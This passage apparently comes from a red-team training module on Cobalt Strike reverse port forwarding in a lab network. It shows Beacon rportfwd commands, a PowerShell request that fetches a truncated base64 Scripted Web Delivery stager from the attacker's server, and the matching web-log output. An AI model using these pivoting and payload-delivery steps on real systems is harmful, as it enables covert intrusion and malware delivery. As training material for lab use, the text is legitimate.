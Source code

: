 Now any traffic hitting this port will be redirected to **10.10.5.120** on port **80**. On DC-2, instead of trying to hit **10.10.5.120:80**, we use **10.10.17.231:8080** (where 10.10.17.231 is the IP address of WKSTN-1).

```
PS C:\> iwr -Uri http://10.10.17.231:8080/a

StatusCode        : 200
StatusDescription : OK
Content           : $s=New-Object IO.MemoryStream(,[Convert]::FromBase64String("H4sIAAAAAAAAAOy9Wa/qSrIu+rzrV8yHLa21xNo
                    1wIAxR9rSNTYY444eTJ1SyRjjBtw3YM49//1GZBoGY865VtXW1rkPV3dKUwyMnU1kNF9EZoRXTvEfqyLz7UKLT863/9g6We7H0T
                    fm...
```

The Web Log in Cobalt Strike also lets us know the request has reached us.

```
07/09 16:17:24 visit (port 80) from: 10.10.5.120
Request: GET /a
page Scripted Web Delivery (powershell)
Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) WindowsPowerShell/5.1.14393.3866
```

This is a contrived demo, but we'll see practical examples of using this in modules such as **Group Policy** and **MS SQL Servers**.

To stop the reverse port forward, do `rportfwd stop 8080` from within the Beacon or click the **Stop** button in the **Proxy Pivots** view.

Aspects to note:

* Beacon's reverse port forward always tunnels the traffic to the Team Server and the Team Server sends the traffic to its intended destination, so shouldn't be used to relay traffic between individual machines.
* The traffic is tunnelled inside Beacon's C2 traffic, not over separate sockets, and also works over P2P links.
* You don't need to be a local admin to create reverse port forwards on high ports.

#### rportfwd\_local

Beacon also has a `rportfwd_local` command.  Whereas `rportfwd` will tunnel traffic to the Team Server, `rportfwd_local` will tunnel the traffic to the machine running the Cobalt Strike client.

This is particularly useful in scenarios where you want traffic to hit tools running on your local system, rather than the Team Server.

Take this Python http server as an example, whilst running the CS client on Kali:

```
root@kali:~# echo "This is a test" > test.txt
root@kali:~# python3 -m http.server --bind 127.0.0.1 8080
Serving HTTP on 127.0.0.1 port 8080 (http://127.0.0.1:8080/)
```

```
beacon> rportfwd_local 8080 127.0.0.1 8080
[+] started reverse port forward on 8080 to rasta -> 127.0.0.1:8080
```
